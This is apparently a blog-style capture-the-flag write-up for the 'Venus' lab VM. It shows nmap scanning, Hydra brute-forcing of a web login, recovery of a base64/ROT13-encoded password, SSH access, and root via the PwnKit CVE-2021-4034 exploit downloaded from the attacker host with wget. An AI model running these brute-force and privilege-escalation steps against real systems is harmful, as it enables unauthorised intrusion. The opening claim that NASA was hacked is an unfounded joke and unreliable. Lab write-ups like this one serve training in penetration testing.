 ```yaml
---
layout: post
title: Venus
date: 27-05-2025
categories: [Medium]
tags: [CVE]
image: "https://images.theconversation.com/files/404401/original/file-20210604-13-128m0ja.jpg"
---
```

>Nasa have been hacked and this was reveled about nasa
{: .prompt-danger }


## Scanning
```
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:30 (0:00:06 remaining)
Nmap scan report for 192.168.56.107
Host is up (0.00022s latency).
Not shown: 987 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.9.5)
|_http-title: Venus Monitoring Login
MAC Address: 08:00:27:18:54:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```
![image](https://github.com/user-attachments/assets/c2107323-86e9-4416-a312-14c25cb2180d)


## Enumartion 

By using the port 8080 running the http-proxy server, finsing the posible users in the system
Using the user guest:guest we can see in the reques there is the vlidation auth exncripted with base64, so lets try to fins the other users in the sys.
>This it need more partient.
{: .prompt-tip }

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/vernus » hydra -L /usr/share/wordlists/rockyou.txt -p guest -s 8080 192.168.56.107 http-post-form "/:username=^USER^&password=^PASS^:Invalid username." 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:37:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.107:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 4328.00 tries/min, 4328 tries in 00:01h, 14340071 to do in 55:14h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: venus   password: guest
[STATUS] 4356.33 tries/min, 13069 tries in 00:03h, 14331330 to do in 54:50h, 16 active
[STATUS] 4360.86 tries/min, 30526 tries in 00:07h, 14313873 to do in 54:43h, 16 active
[STATUS] 4380.27 tries/min, 65704 tries in 00:15h, 14278695 to do in 54:20h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: magellan   password: guest
[8080][http-post-form] host: 192.168.56.107   login: guest   password: guest
[STATUS] 4370.16 tries/min, 135475 tries in 00:31h, 14208924 to do in 54:12h, 16 active





```
## Initial access
i found the vulneurability is in the page '/' that refrect the authentic cypher on the client side req
so i have to use the credentials of the uses i have get and see if i can manage to get the access to the target, so i have to convert the user and the same pass into base64 and find the loocation were there is the out put break in the system.
finslly i get this and it was encoded of user magellan
bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==

decrep using base64 and try to identfy the ype of cypher in the user name it was ROT13 then i used the credentials see the picture bellow

![Screenshot From 2025-05-26 23-10-50](https://github.com/user-attachments/assets/e4772143-8a60-4611-9c26-7d67b15249a7)


![Screenshot From 2025-05-26 23-08-55](https://github.com/user-attachments/assets/8aa2a572-3d56-456a-8d3b-1d60eedbfb92)


```
~/Desktop/redteam/hack/vernus » ssh magellan@192.168.56.107                                 255 ↵ cyberkid@cyberkiddle
magellan@192.168.56.107's password: 
Last failed login: Mon May 26 21:05:09 BST 2025 from 192.168.56.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
[magellan@venus ~]$ 




```
Weldone if you have reached in this stage your very awesome lets get the root account.

## Privilage esc
This exploit it need very well understanding in payloads and mashine learning but cool just simple to get ride of
https://codeload.github.com/berdav/CVE-2021-4034/zip/main
This is the link to the exploit have nice time exploire how to use th exploit.

>Finding more strength to the user.
{: .prompt-tip }

```

[magellan@venus tmp]$ mkdir lilly
[magellan@venus tmp]$ cd lilly/
[magellan@venus lilly]$ wget http://192.168.56.1:8000/CVE-2021-4034-main.zip
--2025-05-26 23:25:44--  http://192.168.56.1:8000/CVE-2021-4034-main.zip
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip        100%[================================================>]   6.31K  --.-KB/s    in 0s      

2025-05-26 23:25:44 (78.3 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

[magellan@venus lilly]$ ls
CVE-2021-4034-main.zip
[magellan@venus lilly]$ unzip CVE-2021-4034-main.zip 
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
[magellan@venus lilly]$ cd CVE-2021-4034-main/
[magellan@venus CVE-2021-4034-main]$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
[magellan@venus CVE-2021-4034-main]$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
[magellan@venus CVE-2021-4034-main]$ ls
'GCONV_PATH=.'   Makefile    cve-2021-4034     cve-2021-4034.sh   gconv-modules   pwnkit.so
 LICENSE         README.md   cve-2021-4034.c   dry-run            pwnkit.c
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# 



```
![image](https://github.com/user-attachments/assets/a3d4c4cc-0655-4d1f-bcba-8b41b6a6d7db)

>Hi I thing it was so tough.
{: .prompt-tip }
